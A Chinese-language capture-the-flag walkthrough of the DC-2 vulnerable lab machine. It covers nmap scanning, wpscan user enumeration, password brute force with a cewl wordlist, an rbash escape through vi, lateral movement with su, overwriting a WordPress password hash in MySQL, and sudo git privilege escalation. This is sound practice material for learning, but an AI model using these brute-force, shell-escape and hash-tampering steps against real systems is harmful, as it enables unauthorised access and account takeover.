










**靶机描述**:
```
DESCRIPTION
Much like DC-1, DC-2 is another purposely built vulnerable lab for the purpose of gaining experience in the world of penetration testing.

As with the original DC-1, it's designed with beginners in mind.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

Just like with DC-1, there are five flags including the final flag.

And again, just like with DC-1, the flags are important for beginners, but not so important for those who have experience.

In short, the only flag that really counts, is the final flag.

For beginners, Google is your friend. Well, apart from all the privacy concerns etc etc.

I haven't explored all the ways to achieve root, as I scrapped the previous version I had been working on, and started completely fresh apart from the base OS install.
```

跟DC-1一样 前面的flag都是引导提示 一步步获得root权限

**配环境**
与DC1一样 ova直接导入
还是在打开的时候更改网络设置为NAT


**扫靶机ip**

```
┌──(root💀kali2021)-[/home/kali2021/桌面]
└─# nmap -sn 192.168.136.0/24
Starting Nmap 7.91 ( https://nmap.org ) at 2024-04-17 17:18 CST
Nmap scan report for 192.168.136.1
Host is up (0.00075s latency).
MAC Address: 00:50:56:C0:00:08 (VMware)
Nmap scan report for 192.168.136.2
Host is up (0.00034s latency).
MAC Address: 00:50:56:EE:A2:E5 (VMware)
Nmap scan report for 192.168.136.153   <= here!!!
Host is up (0.00017s latency).
MAC Address: 00:0C:29:94:C8:AF (VMware)
Nmap scan report for 192.168.136.254
Host is up (0.00024s latency).
MAC Address: 00:50:56:FE:C3:EC (VMware)
Nmap scan report for 192.168.136.146
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 27.96 seconds

```

靶机:


信息收集
`nmap -A`
```
┌──(root💀kali2021)-[/home/kali2021/桌面]
└─# nmap -A 192.168.136.153  
Starting Nmap 7.91 ( https://nmap.org ) at 2024-04-17 17:20 CST
Nmap scan report for 192.168.136.153
Host is up (0.00050s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Did not follow redirect to http://dc-2/
MAC Address: 00:0C:29:94:C8:AF (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.50 ms 192.168.136.153

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.28 seconds

```

直接访问靶机ip http是访问不了的
需要本地dns绑定
```
可以访问本地hosts
C:\Windows\System32\drivers\etc
修改hosts文件
修改不了的话，右键属性 取消只读 保存就可以了
```

加上 `192.168.136.153 dc-2`

就可以访问了


找到flag1
**flag1**:
```
Your usual wordlists probably won’t work, so instead, maybe you just need to be cewl.

More passwords is always better, but sometimes you just can’t win them all.

Log in as one to see the next flag.

If you can’t find it, log in as another.
```


根据提示 需要爆破弱口令 而且提示用 **cewl**

[Cewl用法](https://www.freebuf.com/articles/network/190128.html)

Cewl可以对url进行爬虫信息收集 生成针对性的字典！ (666)


首先还是对网站进一步信息收集
可以看出是一个WordPress网站 dirb扫一扫登陆口
`/wp-login.php`

然后cewl生成字典
`cewl http://dc-2/ -w dict.txt`

但感觉字典不大啊... 先bp爆一爆吧
第一遍没跑出来 (就238个...)
尝试增加深度 `-d`选项 然而没变化...
感觉行不通???

用`wpscan`试试

站点资产:
```
Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.10 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://dc-2/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://dc-2/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://dc-2/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.7.10 identified (Insecure, released on 2018-04-03).
 | Found By: Rss Generator (Passive Detection)
 |  - http://dc-2/index.php/feed/, <generator>https://wordpress.org/?v=4.7.10</generator>
 |  - http://dc-2/index.php/comments/feed/, <generator>https://wordpress.org/?v=4.7.10</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://dc-2/wp-content/themes/twentyseventeen/
 | Last Updated: 2024-04-02T00:00:00.000Z
 | Readme: http://dc-2/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 3.6
 | Style URL: http://dc-2/wp-content/themes/twentyseventeen/style.css?ver=4.7.10
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://dc-2/wp-content/themes/twentyseventeen/style.css?ver=4.7.10, Match: 'Version: 1.2'

```

`wpscan --url http://dc-2 --enumerate u`

扫出来三个用户
```
[i] User(s) Identified:

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://dc-2/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] jerry
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://dc-2/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] tom
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```

将三个用户名写在kali下的user.txt 然后与先前cewl生成的passwd.txt进行爆破
`wpscan --url http://dc-2 -U user.txt -P passwd.txt`
还真爆出来一些...

```
[+] Performing password attack on Xmlrpc against 3 user/s
[SUCCESS] - jerry / adipiscing                                                                                                                                                                                      
[SUCCESS] - tom / parturient                                                                                                                                                                                        
Trying admin / sometimes Time: 00:00:32 <==============================================================================                                                          > (375 / 640) 58.59%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient

```

真就登进去了!


在侧边栏的Page找到flag2
**flag2**
```
Flag 2:

If you can't exploit WordPress and take a shortcut, there is another way.

Hope you found another entry point.
```


进一步扫了扫wp其他如 plugins/themes 都没扫出来 也就是不好wpscan利用漏洞

再看看wp站点的信息:
wp版本: 4.7.10
wp主题: twentyseventeen

搜索 wp 4.7.10漏洞只搜得到越权访问 但没什么用 我们的目的还是要getshell


注意到有page编辑 说不定能写马
但是没办法作为php文件解析
注意到有个 insert media
对后缀有waf
但怎么上传都是无法create directory? 本地环境的Bug???
emmm...????????

如果要利用插件漏洞需要先安装插件 但是必须要admin权限...
```
http://dc-2/wp-admin/plugin-install.php

Sorry, you are not allowed to access this page.
```

回想flag2的提示 另一个entry 只能是ssh了 但之前没扫出来?
因为之前是粗略扫描 我们再细扫一下
我这里采用的是 --top-ports 10000来扫

```
┌──(root💀kali2021)-[/home/kali2021/桌面]
└─# nmap --top-ports 10000  192.168.136.153
Starting Nmap 7.91 ( https://nmap.org ) at 2024-04-17 21:40 CST
Nmap scan report for 192.168.136.153
Host is up (0.00021s latency).
Not shown: 8338 closed ports
PORT     STATE SERVICE
80/tcp   open  http
7744/tcp open  raqmon-pdu
MAC Address: 00:0C:29:94:C8:AF (VMware)

Nmap done: 1 IP address (1 host up) scanned in 0.81 seconds

```

果然扫出个 `7744/tcp open  raqmon-pdu`
google也没搞明白这raqmon-pdu有啥用
再用 `nmap  192.168.136.153 -p7744 -A` 扫


原来是ssh 结合先前的账密尝试登陆
jerry登不进去 tom可以

`ssh tom@192.168.136.153 -p 7744`
parturient

ls发现flag3.txt 但很多Linux命令用不了?
查询发现rbash是受限制的bash
这里应该是考察rbash的绕过了
[rbash绕过](https://cloud.tencent.com/developer/article/1680551)

可以用vi
那么 vi
然后 ESC 进入末行模式
输入 `:set shell=/bin/bash`
再 ESC 输入 `:shell`
退出发现可以用cd了
然后用 `/bin/cat` 执行 (其实usr下面是可以用less的... 无妨)


**flag3**:
```
Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.
```

提示su?
那就用前面jerry的密码试一试
```
tom@DC-2:~$ /bin/su jerry
Password: 
jerry@DC-2:/home/tom$ 

```

成功! 现在拿到jerry的权限了 jerry就不受rbash限制了
通过ls无权限知道home目录还有jerry 进入jerry目录拿到flag4
```
jerry@DC-2:/home/tom$ ls
ls: cannot open directory .: Permission denied
jerry@DC-2:/home/tom$ ls /home
jerry  tom
jerry@DC-2:/home/tom$ cd /home/jerry;ls
flag4.txt
jerry@DC-2:~$ cat flag4.txt
Good to see that you've made it this far - but you're not home yet. 

You still need to get the final flag (the only flag that really counts!!!).  

No hints here - you're on your own now.  :-)

Go on - git outta here!!!!

```

**flag4**:
```
Good to see that you've made it this far - but you're not home yet. 

You still need to get the final flag (the only flag that really counts!!!).  

No hints here - you're on your own now.  :-)

Go on - git outta here!!!!
```

最后一句话是: 离开这里 的意思

最后的目标就是提权到root


adipiscing

parturient

在 /var/www/html的config.php 可以看到mysql的信息
```
/** The name of the database for WordPress */
define('DB_NAME', 'wordpressdb');

/** MySQL database username */
define('DB_USER', 'wpadmin');

/** MySQL database password */
define('DB_PASSWORD', '4uTiLL');

/** MySQL hostname */
define('DB_HOST', 'localhost');

```

连接看看
`mysql -h 127.0.0.1 -u wpadmin -p`



又能修改密码登陆?
虽说找不到hash的计算方法 但我们已知jerry的密码hash 改为一样即可
```
mysql> update wordpressdb.wp_users set user_pass="$P$BRCcbpudGlBukTwA7kJsb.rafAL4il." where ID=1
    -> ;
Query OK, 1 row affected (0.01 sec)
Rows matched: 1  Changed: 1  Warnings: 0

mysql> 

```

试着登陆一下
admin adipiscing


很好 admin登陆进来了

admin就能安装插件了
梳理一下 我们现在得到的是web的admin权限 我们想要命令执行 所以要利用plugin存在的漏洞RCE

msf搜一搜


但是怎么安plugins啊...
这些选项填不了...


emmm... 应该是走偏了...

再去看flag4
`git outta here!!!!`
莫非提示git??? git提权?

突然想起忘了很重要的一步
先 `sudo -l` ...

```
jerry@DC-2:/$ sudo -l
Matching Defaults entries for jerry on DC-2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jerry may run the following commands on DC-2:
    (root) NOPASSWD: /usr/bin/git
```
git!!!

[git提权](https://blog.csdn.net/G_Fu_Q/article/details/116276096)





wow 拿到root权限
**finalflag**
```
root@DC-2:/# cat /root/f*
 __    __     _ _       _                    _ 
/ / /\ \ \___| | |   __| | ___  _ __   ___  / \
\ \/  \/ / _ \ | |  / _` |/ _ \| '_ \ / _ \/  /
 \  /\  /  __/ | | | (_| | (_) | | | |  __/\_/ 
  \/  \/ \___|_|_|  \__,_|\___/|_| |_|\___\/   


Congratulatons!!!

A special thanks to all those who sent me tweets
and provided me with feedback - it's all greatly
appreciated.

If you enjoyed this CTF, send me a tweet via @DCAU7.
```


---
---

又学习到了好多好多姿势~
每次做完都把姿势总结下来

这次主要是 WordPress相关&&wpscan的用法 rbash的绕过 git提权
爽！ 继续冲！
